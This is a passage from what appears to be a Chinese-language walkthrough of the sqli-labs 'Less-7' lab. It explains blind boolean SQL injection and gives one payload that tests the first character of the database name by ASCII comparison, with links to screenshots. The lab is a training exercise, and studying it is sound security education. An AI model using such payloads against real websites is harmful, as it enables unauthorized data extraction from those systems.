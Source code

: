 ![Less-7_7](./img/Less-7_7.PNG)

页面显示正常，通过修改数据库长度值再根据页面显示是否正常确定数据库长度值



+ 注入以下语句

~~~ shell
?id=1')) and ascii(substr((select database()),1,1))=115--+
~~~

![Less-7_8](./img/Less-7_8.png)
